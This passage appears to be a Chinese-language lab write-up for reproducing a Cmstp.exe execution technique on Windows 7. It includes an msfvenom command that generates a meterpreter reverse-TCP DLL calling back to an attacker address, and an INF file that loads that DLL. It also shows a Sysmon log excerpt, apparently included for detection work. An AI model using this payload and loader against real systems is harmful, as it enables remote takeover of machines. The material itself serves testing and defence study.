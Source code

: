   ```
  CurrentDirectory:C:\Windows\system32\
  User:12306Br0-PC\12306Br0
  Hashes:SHA1=BA135738EF1FB2F4C2C6C610BE2C4E855A526668
  ParentImage:C:\Windows\System32\cmd.exe
  ```

## 测试复现

### 环境准备
- 攻击机：Kali Linux 2019（或其他支持Metasploit的系统）
- 靶机：Windows 7（或其他支持`Cmstp.exe`的Windows系统）
- 工具：
  - Metasploit Framework（用于生成Payload和监听）
  - Sysmon（可选，用于日志收集）

### 攻击分析

#### 1.生成恶意DLL
在攻击机上使用`msfvenom`生成恶意DLL：

```bash
msfvenom -a x86 --platform Windows -p windows/meterpreter/reverse_tcp LHOST=192.168.126.146 LPORT=53 -f dll -o payload.dll
```

- 参数说明：
  - `-a x86`：指定32位架构。
  - `-p windows/meterpreter/reverse_tcp`：生成反弹Shell Payload。
  - `LHOST`和`LPORT`：指定攻击机IP和端口。
  - `-f dll`：输出为DLL格式。
  - `-o payload.dll`：输出文件名。

将生成的`payload.dll`传输到靶机（如`C:\Users\12306Br0\Desktop\a\payload.dll`）。

#### 2.创建INF文件
创建包含恶意DLL或SCT的INF文件。以下是两个INF文件示例：

**本地DLL的INF文件**：
```inf
[version]
Signature=$chicago$
AdvancedINF=2.5
[DefaultInstall_SingleUser]
UnRegisterOCXs=UnRegisterOCXSection
[UnRegisterOCXSection]
C:\Users\12306Br0\Desktop\a\payload.dll
[Strings]
AppAct="SOFTWARE\Microsoft\Connection Manager"
ServiceName="12306Br0"
ShortSvcName="12306Br0"
```
